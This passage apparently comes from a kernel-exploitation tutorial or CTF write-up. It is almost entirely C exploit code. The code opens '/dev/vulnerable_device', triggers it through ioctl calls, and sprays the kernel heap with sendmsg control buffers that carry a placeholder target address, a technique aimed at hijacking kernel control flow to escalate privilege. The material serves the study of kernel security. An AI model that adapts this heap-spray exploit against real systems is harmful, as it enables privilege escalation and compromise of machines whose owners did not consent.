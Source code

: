 ```
`}`

void heap_spray_sendmsg(int fd, size_t target, size_t arg)
`{`
    char buff[BUFF_SIZE];
    struct msghdr msg=`{`0`}`;
    struct sockaddr_in addr=`{`0`}`;
    int sockfd = socket(AF_INET,SOCK_DGRAM,0);

    memset(buff, 0x43 ,sizeof buff);
    memcpy(buff+56, &amp;arg ,sizeof(long));
    memcpy(buff+56+(sizeof(long)), &amp;target ,sizeof(long));

    addr.sin_addr.s_addr=htonl(INADDR_LOOPBACK);
    addr.sin_family=AF_INET;
    addr.sin_port=htons(6666);


    msg.msg_control=buff;
    msg.msg_controllen=BUFF_SIZE;
    msg.msg_name=(caddr_t)&amp;addr;
    msg.msg_namelen= sizeof(addr);

    ioctl(fd, 0xFE03, NULL);
    ioctl(fd, 0xFE06, NULL);

    for (int i=0;i&lt;10000;i++)`{`
        sendmsg(sockfd, &amp;msg, 0);
    `}`

    ioctl(fd, 0xFE04, NULL);
`}`

int main(int argc,char * argv[])`{`
    init();
    save_user_status();

    int fd = open("/dev/vulnerable_device",0);
    if (fd &lt; 0)`{`
        puts("open fail!");
        return 0;
    `}`

    heap_spray_sendmsg(fd,0x4242424242424242,0);
    return 0;
`}`
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-04-26-033543.png)
